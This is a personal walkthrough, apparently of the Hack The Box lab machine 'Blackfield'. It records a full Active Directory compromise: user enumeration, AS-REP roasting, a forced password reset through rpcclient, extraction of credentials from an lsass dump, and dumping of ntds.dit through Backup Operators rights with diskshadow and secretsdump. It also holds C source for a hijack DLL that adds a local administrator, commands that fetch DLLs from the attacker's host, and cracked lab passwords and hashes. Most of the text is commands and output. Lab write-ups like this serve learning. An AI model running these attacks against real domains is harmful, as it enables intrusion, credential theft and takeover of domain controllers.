

# Summary


## about target

tip:  10.129.112.105

hostname:  Blackfield

Difficulty:  Hard


## about attack

+ 难点在于需要多个攻击获取shell， smb enum got user list -- user brute force -- ASreproast to got first creds (no shell)-- bloodhound enum -- exploit changepassword - smb enum to got third creds(hash) -- foothold -- privesc backupprivilege
+ lsass.dmp dump the creds;
+ bloodhound py enum
+ forcechangepassword, rpcclient change user password
+ Backup operators group exploit, diskshadow dump ntds;  [pentestlab dumpcreds](https://pentestlab.blog/tag/diskshadow/)
+ Backup operators group exploit 2, dll hijack.


**attack note**

```bash
Blackfield / 10.129.112.105

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-07 22:04:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows


---- insteresting
Domain Name: BLACKFIELD
Domain Sid: S-1-5-21-4194615774-2175524697-3563712290

Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local

support:#00^BlackKnight

svc_backup:9658d1d1dcd9250115e2205d9f48400d

---- Enum

enum4linux -a $tip | tee enum4linux.log

crackmapexec smb $tip -u '' --pass-pol

# add hosts
echo '10.129.112.105 blackfield.local dc01.blackfield.local' | sudo tee -a /etc/hos

ldapsearch -H ldap://$tip:389 -x -b "DC=blackfield,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname

# result was NT_STATUS_ACCESS_DENIE
rpcclient -W '' -c querydispinfo -U''%'' $tip

kerbrute userenum -d blackfield.local  --dc blackfield.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt


---- exploit

sudo mount -t cifs //$tip/profiles$ /mnt

# get dir name to user list
ls -1 /mnt/ > users

kerbrute userenum -d blackfield.local  --dc $tip  users.list

GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip blackfield.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec smb $tip -u support -p "#00^BlackKnight" --share

crackmapexec winrm $tip -u support -p "#00^BlackKnight"

ldapsearch -H ldap://$tip -D 'support' -w '#00^BlackKnight' -x -b "DC=blackfield,DC=local" > ldap_cred.log

# python bloodhound enum
pip install bloodhound

## -c ALL - All collection methods
## -u support -p #00^BlackKnight - Username and password to auth as
## -d blackfield.local - domain name
## -dc dc01.blackfield.local - DC name (it won’t let you use an IP here)
##-ns 10.10.10.192 - use 10.10.10.192 as the DNS server
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $ti

# change password
## not work
smbpasswd.py support:#00^BlackKnight@blackfield.local -newpass Hack01@123  

## https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword
rpcclient -U support $tip
> setuserinfo2 audit2020 23 'Hack01@123'

## check pwd, no winrm
crackmapexec smb $tip -u audit2020 -p 'Hack01@123' --shares
crackmapexec winrm $tip -u audit2020 -p 'Hack01@123'

# check smb file
smbclient //$tip/forensic -U audit2020%Hack01@123

## get error, parallel_read returned NT_STATUS_IO_TIMEOUT

## smbget, Can't read 64000 bytes at offset 512000, file smb://10.129.148.187/forensic/memory_analysis/lsass.zi
smbget  smb://$tip/forensic/memory_analysis/lsass.zip -U audit2020%Hack01@123

## mount and cp
sudo mount -t cifs -o username="audit2020",password="Hack01@123" //$tip/forensic /mnt
cp /mnt/memory_analysis/lsass.zip ./
unzip lsass.zip -d ./smbfile/lsass/

## curl download
curl --user "audit2020:Hack01@123" smb://$tip/forensic/memory_analysis/lsass.zip -o ./lsass.zip


# winrm 
crackmapexec winrm $tip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i $tip

---- privesc

# local enum
## dump creds. https://pentestlab.blog/tag/diskshadow/

reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

## not work
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL

## error
## 2022/12/10 15:20:46 ERROR 32 (0x00000020) Copying File C:\Windows\NTDS\ntds.dit
## The process cannot access the file because it is being used by another process.
robocopy /B C:\Windows\NTDS .\ntds ntds.dit

## copy-
iwr -uri http://10.10.14.90/SeBackupPrivilegeCmdLets.dll -outfile SeBackupPrivilegeCmdLets.dll
iwr -uri http://10.10.14.90/SeBackupPrivilegeUtils.dll -outfile SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege F:\Windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite

# dll hijack
## https://github.com/itm4n/UsoDllLoader
## https://snowscan.io/htb-writeup-blackfield/#

upload /home/kali/lab/htb/blackfield/hijack/ WindowsCoreDeviceInfo.dll c:\temp\WindowsCoreDeviceInfo.dll
upload /home/kali/lab/htb/blackfield/hijack/UsoDllLoader.exe c:\temp\usodllloader.exe
mkdir system32
move windowscorediviceinfo.dll .\system32
move UsoDllLoader.exe .\system32
robocopy /b system32 c:\windows\system32
```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-07 22:04:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:window
```


## Basic enum

enum4linux, found nothing,  only domain name and sid.

crackmapexec, got the windows version and domain name

>Domain Name: BLACKFIELD
Domain Sid: S-1-5-21-4194615774-2175524697-3563712290

> Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local

```bash
enum4linux -a $tip | tee enum4linux.log

crackmapexec smb $tip -u '' --pass-pol
```


add hosts.

```bash
echo '10.129.112.105 blackfield.local dc01.blackfield.local' | sudo tee -a /etc/hosts
```


## ldapsearch

found nothing.

```bash
ldapsearch -H ldap://$tip:389 -x -b "DC=blackfield,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname
```


## rpc

rpcclient, nothing.

```bash
rpcclient -W '' -c querydispinfo -U''%'' $tip
```


## smb 

Found share, /profiles$  read only.

smbmap with paras  -u null, if no result for default para.

```bash
smbclient -L $tip
smbmap -H $tip
smbmap -H $tip -u null
```




check profiles, got lots of dirs, seems to username

```bash
smbclient //$tip/profiles$
```

mount and save dir name to userlist.

```bash
sudo mount -t cifs //$tip/profiles$ /mnt
# get dir name to user list
ls -1 /mnt/ > users.list
```


# Exploit support

##  user brute

Kerbrute, found 3 valid user.

```bash
kerbrute userenum -d blackfield.local  --dc $tip  users.list
```


## Asreproast

got support password. No winrm connect.

> support:#00^BlackKnight

```bash
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip blackfield.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec smb $tip -u support -p "#00^BlackKnight" --share

crackmapexec winrm $tip -u support -p "#00^BlackKnight"
```


## ldapsearch

Nothings found.

```bash
ldapsearch -H ldap://$tip -D 'support' -w '#00^BlackKnight' -x -b "DC=blackfield,DC=local" > ldap_cred.log
```


# exploit audit2020


## bloodhound py

enum with support creds via bloodhound py.

```bash
pip install bloodhound

# -c ALL - All collection methods
# -u support -p #00^BlackKnight - Username and password to auth as
# -d blackfield.local - domain name
# -dc dc01.blackfield.local - DC name (it won’t let you use an IP here)
# -ns 10.10.10.192 - use 10.10.10.192 as the DNS server
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $tip
```

got several json file, upload to bloodhound.


check user support(have owned), first degree objet control 

user support, forcechangepassword to user audit2020


## rpc change pwd

reset audit2020's password via rpc.

```bash
## not work
smbpasswd.py support:#00^BlackKnight@blackfield.local -newpass Hack01@123  

## https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'Hack01@123'
```


check password, correct creds but no winrm

```bash
## check pwd, no winrm
crackmapexec smb $tip -u audit2020 -p 'Hack01@123' --shares
crackmapexec winrm $tip -u audit2020 -p 'Hack01@123'
```


## smb forensic

Check smb share, forensic. Read access for user audit2020

```bash
smbclient //$tip/forensic -U audit2020%Hack01@123
```

download error, `## get error, parallel_read returned NT_STATUS_IO_TIMEOUT`


smbget, error too.

```bash
## smbget, Can't read 64000 bytes at offset 512000, file smb://10.129.148.187/forensic/memory_analysis/lsass.zi
smbget  smb://$tip/forensic/memory_analysis/lsass.zip -U audit2020%Hack01@123
```


curl failed too.

```bash
curl --user "audit2020:Hack01@123" smb://$tip/forensic/memory_analysis/lsass.zip -o ./lsass.zip

```


mount and copy, work but takes long.

```bash
## mount and cp
sudo mount -t cifs -o username="audit2020",password="Hack01@123" //$tip/forensic /mnt
cp /mnt/memory_analysis/lsass.zip ./
unzip lsass.zip -d ./smbfile/lsass/
```

got lsass.dmp file. 

## lsa dump

install pypykatz, dump the lsass.dmp 

got several hash, svc_backup correct.

```bash
pypykatz lsa minidump ./lsass.DMP > lsadump.log
more lsadump.log
```


# exploit svc_backup

check hash and connect, correct hash.

got shell

```bash
# winrm 
crackmapexec winrm $tip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i $tip

```


# Privesc


## local enum

check user svc_backup

> member of Backup Operators group
>
> SeBackupPrivileg enabled.

```bash
whoami /all
```


## dump ntds to admin

google the backup operators,  found hacktricks 

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators


save the command to file and diskshadow to got ntds.dit.

```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```


upload and run diskshadow, got error 

```bash
# evil-winrm, upload with the absolute path.
upload /home/kali/lab/htb/blackfield/credsdump/diskshadow.txt c:\temp\disk.txt

diskshadow -s disk.txt
```

这里提示命令错误，查看scripts `persistent`  最后一个字符 t 丢失。

参考 walkthrough， unix dos 字符问题。


unix2dos 转换, 上传后重新 shadow, work.

```bash
 unix2dos diskshadow.txt
```


copy ntds file, way 1  [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

upload dll and copy

```bash
iwr -uri http://10.10.14.90/SeBackupPrivilegeCmdLets.dll -outfile SeBackupPrivilegeCmdLets.dll
iwr -uri http://10.10.14.90/SeBackupPrivilegeUtils.dll -outfile SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege F:\Windows\NTDS\ntds.dit c:\temp\ntds.dit
```


copy ntds file, way 2 robocopy

```bash
robocopy /B C:\Windows\NTDS .\ntds ntds.dit
```

if no shadow, got this error.

```bash
## 2022/12/10 15:20:46 ERROR 32 (0x00000020) Copying File C:\Windows\NTDS\ntds.dit
## The process cannot access the file because it is being used by another process.
```


save system and download ntds, system via smb.

```bash
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam

smbserver.py -smb2support share ./ &

copy c:\temp\ntds.dit \\10.10.14.90\share\ntds.dit
```

takes long time, if file copy not correct, use evil-winrm download.

```bash
download c:\temp\ntds.dit /home/kali/lab/htb/blackfield/ntds.dit
```


dump creds, got admin hash.

```bash
secretsdump.py -ntds ntds.dit -system system local
```

connect via wimrm.

```bash
evil-winrm -u administrator -H 184fb5e5178480be64824d4cd53b99ee -i $tip
```

psexec not work, neither the ip nor the domain name. Not know the reason.

error ` Error performing the uninstallation, cleaning up`

```bash
psexec.py -hashes :184fb5e5178480be64824d4cd53b99ee blackfield.local/administrator@dc01.blackfield.loca
```


## dll hijack to admin

 https://snowscan.io/htb-writeup-blackfield/#

exploit payload, add user.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users snowscan Yolo1234! /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators snowscan /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```


exploit 

```bash
# dll hijack
## https://github.com/itm4n/UsoDllLoader
## https://snowscan.io/htb-writeup-blackfield/#

## compile
x86_64-w64-mingw32-gcc -o windowscorediviceinfo.dll adduser.c -shared

upload /home/kali/lab/htb/blackfield/hijack/ WindowsCoreDeviceInfo.dll c:\temp\WindowsCoreDeviceInfo.dll
upload /home/kali/lab/htb/blackfield/hijack/UsoDllLoader.exe c:\temp\usodllloader.exe
mkdir system32
move windowscorediviceinfo.dll .\system32
move UsoDllLoader.exe .\system32
robocopy /b system32 c:\windows\system32
```


user added, local admin.


Psexec connect, failed, same error.

```bash
psexec.py snowscan:'Yolo1234!'@$tip
```


winrm, connected.

according to the walkthrough [snowscan blackfield](https://snowscan.io/htb-writeup-blackfield/#),  snowscan should not able to read the root.txt

>  the file is encrypted with a certificate which is stored in the Windows Certificate store and only the Administrator user can access it.

But,  did read the file. 

```bash
evil-winrm -u snowscan -p 'Yolo1234!' -i $tip

```


machine changed or some other reason?

if the file encrypted, it's also easy to get cause snowscan is local admin.

+ change administrator's password to read.
+ mimikatz dump creds to get administrators's password/hash
+ 


## proof

```bash


```


